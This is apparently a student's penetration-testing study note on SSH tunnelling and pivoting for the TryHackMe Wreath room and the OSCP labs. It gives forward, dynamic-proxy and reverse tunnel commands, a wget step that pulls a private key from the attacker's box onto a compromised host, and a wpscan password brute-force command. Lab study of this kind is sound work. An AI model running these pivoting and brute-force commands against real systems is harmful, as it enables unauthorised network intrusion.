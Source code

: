 ### TRY THIS FIRST!
KALI: 
```bash - kali
ssh-keygen -t rsa -N ‘’ -f ~/.ssh/key
```

TARGET:
```
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -I key kali@$KALI
```


With the dynamic reverse tunnel established, edit the /etc/proxychains4.conf to use the port 1080.

---

https://tryhackme.com/room/wreath

| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

**Forward Connections**

Creating a forward (or "local") SSH tunnel can be done from our attacking box when we have SSH access to the target. As such, this technique is much more commonly used against Unix hosts. Linux servers, in particular, commonly have SSH active and open. That said, Microsoft (relatively) recently brought out their own implementation of the OpenSSH server, native to Windows, so this technique may begin to get more popular in this regard if the feature were to gain more traction.

There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

-   Port forwarding is accomplished with the `-L` switch, which creates a link to a **L**ocal port. For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:

==Run on kali==
```
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

---

==Had box in OSCP lab where target had internal IP address hosting a web site.  Had to forward local port of $INTERNAL-IP:80 to $KALI-IP:80, ssh'ing into PUBLIC-IP:2222 ==
```bash - kali
sudo proxychains ssh -N -L $KALI:80:$INTERNAL:80 student@$PUBLIC -p 2222
```

```bash - kali
sudo proxychains ssh -N -L 0.0.0.0:80:172.18.0.2:80 student@192.168.144.52 -p 2222
```

```bash - kali
sudo proxychains wpscan --url 127.0.0.1 -U offsec -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```

Also able to just open Firefox and visit page in browser.

---

-   We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 _on our own_ _attacking machine._ For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a tunnel between port 80 on the target server, and port 8000 on our own box. Note that it's good practice to use a high port, out of the way, for the local connection. This means that the low ports are still open for their correct use (e.g. if we wanted to start our own webserver to serve an exploit to a target), and also means that we do not need to use `sudo` to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.  
      
-   Proxies are made using the `-D` switch, for example: `-D 1080`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:

```
ssh -D 127.0.0.1:1080 user@172.16.0.5 -fN
```

See also [[10.11.1.252 - TIMECLOCK]] for example.

This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.

**Reverse Connections**  

Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine _from_ the target -- be it by using credentials, or preferably a key based system. Before we can make a reverse connection safely, there are a few steps we need to take:

```bash - kali
ssh-keygen
```

Give it a name of "./reverse"

```
./reverse
```


```
ls -l reverse*
```


```
touch ~/.ssh/authorized_keys
```

```
mousepad ~/.ssh/authorized_keys
```

```
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
```

Paste in the contents of reverse.pub:

The final entry in the `authorized_keys` file should look something like this:


Check that ssh is running:

```bash - kali
sudo systemctl status ssh
```

if not, start it:

```bash - kali
sudo systemctl start ssh
```

Transfer private key to target box (Vic1).

[[Python#Server]]

```bash - target
wget http://$KALI/reverse
```


| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

```bash - Vic1
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

```bash - Vic1
ssh -R LOCAL_PORT:VICTIM2:VICTIM2_PORT kali@$KALI -i KEYFILE -fN
```

==Run the following on the Vic1 box (172.16.0.5)==

```bash - Vic1
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

_**Note:** Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from. In many ways this makes the next task covering plink.exe redundant; however, it is still very relevant for older systems._

```bash - kali
ssh -N -R $TARGET:5555:127.0.0.1:5555 -p 2222 student@$TARGET
```
